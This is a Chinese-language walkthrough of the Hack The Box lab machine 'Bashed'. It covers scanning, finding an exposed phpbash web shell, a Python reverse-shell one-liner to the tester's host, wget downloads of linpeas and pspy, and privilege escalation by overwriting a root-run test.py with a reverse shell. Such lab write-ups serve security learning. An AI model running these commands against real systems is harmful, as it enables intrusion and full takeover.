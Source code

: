 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Bashed"
linktitle: "Bashed"
date: 2022-05-09T12:48:40+08:00
type: book
summary: ""
test: 
---
```


### nmap扫描

```bash
sudo nmap -T4 -Pn -A -sV -vv -sS --script=vuln -p- 10.10.10.68
```

扫描结果，只有80端口开放

![](image/image_dTmvICQNbd.png)

### 访问http\://10.10.10.68

![](image/image_wHEtAxD5WP.png)

发现项目地址

```bash
https://github.com/Arrexel/phpbash

```

![](image/image_BDJq8X72aN.png)

![](image/image_BNA9z51BGB.png)

关键信息，找到这两个文件的路径

```bash
phpbash.min.php
phpbash.php

```

F12看一下源码

图片路径存在目录遍历，不过没发现敏感信息

![](image/image_4DZpKJ96nI.png)

### 扫描web路径

dirb  （这个不好用，特别慢）

![](image/image_mFTTVpqoZS.png)

推荐使用Dirbuster，支持多线程

![](image/image_MNuwJFOs6v.png)

发现dev路径，发现关键文件

![](image/image_VHLzzt_9d8.png)

访问，直接获得交互式shell，但是权限较低，后面要提权

```bash
http://10.10.10.68/dev/phpbash.php
```

先获取一个flag

![](image/image_xKb5bjgEwF.png)

### 反弹交互式shell

本地监听

```bash
nc -lvp 23333

#这里试了下端口号比较小好像会断（6666，7777），不知道什么原因
```

靶机执行

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",23333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](image/image_IWVHr6uHVk.png)

### 提权

下载linux提权检测脚本到本地

```bash
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS/builder
```

### 本地监听80，靶机下载提权文件检测脚本

```bash
wget -P /tmp http://10.10.14.2/linpeas.sh

chmod 777 linpeas.sh

./linpeas.sh


```

![](image/image_YfzQQV9O1Z.png)

发现该用户可直接登录

```bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

```bash
#执行
sudo -u scriptmanager /bin/bash

#升级交互式shel
python -c 'import pty; pty.spawn("/bin/bash")'

```

![](image/image_9Ja34vGpgQ.png)

再执行一下提权检测脚本

检测到这个py文件当前用户拥有读写权限。

```bash
/scripts/test.py
```

![](image/image_WPQVjwr-Gm.png)

### 使用pspy监听一下进程的执行情况

```bash
https://github.com/DominicBreuker/pspy


wget -P /tmp/ http://10.10.14.2/pspy32

chmod 777 pspy32

./pspy32
```

![](image/image_EL_12YqiSd.png)

发现test.py是root(uid=0)在执行，同时当前用户可以读写test.py

![](image/image_XyUgr5oLAx.png)

直接改写test.py内容为反弹shell，root执行test.py时就会把root权限的shell反弹回来。

本地监听另外一个端口

![](image/image_fQBN9yCMXt.png)

### 改写test.py

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",23334));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'>/scripts/test.py
```

### 等待一分钟获得root权限shell

![](image/image_fXeCmvNEIj.png)
